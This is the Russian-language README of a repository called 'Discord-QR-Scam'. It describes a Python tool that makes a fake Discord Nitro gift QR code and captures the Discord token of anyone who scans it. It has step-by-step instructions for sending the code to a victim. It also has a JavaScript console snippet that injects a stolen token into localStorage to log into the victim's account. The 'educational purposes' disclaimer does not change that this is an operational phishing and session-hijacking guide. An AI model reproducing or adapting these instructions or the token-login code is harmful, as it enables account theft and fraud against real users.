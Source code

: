 # Discord-QR-Scam

## Отказ от ответственности
Автор не несет ответственности за точность, полноту или качество предоставленной информации. Используйте последующую информацию на свой страх и риск.
Используйте предоставленую информацию только в образовательных целях.

## Информрация
Python скрипт, который автоматически генерирует QR-код Nitro и получает токен пользователя Discord при сканировании. Этот инструмент демонстрирует, как люди могут обмануть других
в сканирование своего QR-кода для входа в Discord и получения доступа к своей учетной записи.

## Использование
1. Если у Вас не установлен Python, загрузите Python 3.7.6. и убедитесь, что вы выбрали опцию `Add Python 3.7.6 to PATH` во время установки.
2. Установите необходимые модули > `pip install -r requirements.txt` или дважды кликните по `install.cmd`
3. Запустите `python qr_generator.py` в командной строке или двойной клик `run.cmd`
4. Подождите, пока `discord_gift.png` будет сгенерирован. Отправьте изображение пользователю и попросите отсканировать его.
5. QR-код действует всего около 2-х минут. Убедитесь, что Вы отправляете пользователю новый QR-код который готов к сканированию.
6. Когда QR-код будет отсканирован, Вы автоматически войдете в учетную запись Discord, и получите токен Discord.

## Вход
1. Откройте ваш браузер
2. Перейдите на https://discord.com/login
3. Нажмите F12 (или Ctrl + Shift + I)
4. Выберите вкладку `Console` и вставьте нижеуказанный код
```
function login(token) {
  setInterval(() => {
    document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
  }, 50);
  setTimeout(() => {
    location.reload();
  }, 2500);
}
login('TOKEN');
```
5. Замените слово `TOKEN` токеном пользователя и нажмите `ENTER`

## Устранение неполадок
Убедитесь, что Ваш файл chromedriver.exe имеет ту же версию, что и текущая версия веб-браузера Chrome. Чтобы проверить текущую версию Chrome,
вставьте `chrome://settings/help` в Google Chrome.

Если хром зависает:
1. Убедитесь, что Ваш файл chromedriver.exe имеет ту же версию, что и версия веб-браузера Chrome.
2. Загрузите последнюю версию chromedriver.exe здесь: https://chromedriver.chromium.org/downloads
3. Затем замените файл chromedriver.exe в папке.
